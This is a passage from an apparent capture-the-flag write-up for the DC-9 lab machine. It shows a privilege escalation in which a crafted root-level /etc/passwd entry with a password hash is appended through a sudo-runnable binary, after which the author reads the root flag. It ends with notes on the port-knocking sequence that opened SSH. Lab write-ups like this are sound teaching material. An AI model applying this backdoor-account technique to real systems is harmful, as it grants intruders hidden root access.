 - x : This is usually the password, but we couldn't see it because its usually inside the shadow file. 

Open up a text editor and fill up the gaps. Our final payload will be like this: 

`fspxnky:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0:/root:/bin/bash`

Save the payload and run the binary again as root. 

```
sudo ./test /tmp/hehe.txt /etc/passwd
```

Once done, switch to the newly user that we created: 

```
fredf@dc-9:/opt/devstuff/dist/test$ su fspxnky
Password:
fspxnky@dc-9:/opt/devstuff/dist/test$ ls /root
theflag.txt
fspxnky@dc-9:/opt/devstuff/dist/test# cat /root/theflag.txt 


███╗   ██╗██╗ ██████╗███████╗    ██╗    ██╗ ██████╗ ██████╗ ██╗  ██╗██╗██╗██╗
████╗  ██║██║██╔════╝██╔════╝    ██║    ██║██╔═══██╗██╔══██╗██║ ██╔╝██║██║██║
██╔██╗ ██║██║██║     █████╗      ██║ █╗ ██║██║   ██║██████╔╝█████╔╝ ██║██║██║
██║╚██╗██║██║██║     ██╔══╝      ██║███╗██║██║   ██║██╔══██╗██╔═██╗ ╚═╝╚═╝╚═╝
██║ ╚████║██║╚██████╗███████╗    ╚███╔███╔╝╚██████╔╝██║  ██║██║  ██╗██╗██╗██╗
╚═╝  ╚═══╝╚═╝ ╚═════╝╚══════╝     ╚══╝╚══╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝╚═╝
                                                                             
Congratulations - you have done well to get to this point.

Hope you enjoyed DC-9.  Just wanted to send out a big thanks to all those
who have taken the time to complete the various DC challenges.

I also want to send out a big thank you to the various members of @m0tl3ycr3w .

They are an inspirational bunch of fellows.

Sure, they might smell a bit, but...just kidding.  :-)

Sadly, all things must come to an end, and this will be the last ever
challenge in the DC series.

So long, and thanks for all the fish.
```

Sadly, this is the last DC machine that will be created from the creators. 

## Investigating Port 22

I was puzzled on how i manage to get SSH Port to open, when my initial scan did not reflect the SSH Port. I asked a few friends and they told me it could be port knocking. Reading this [article](https://www.tecmint.com/port-knocking-to-secure-ssh/) show me how to install and apply port knocking. By default, `knockd.conf` file resides in the `/etc` folder. With root access, i can view and read the contents of the file. To open the SSH port, the sequence are: 7469,8475,9842. To close it, it will be in the reverse order. 
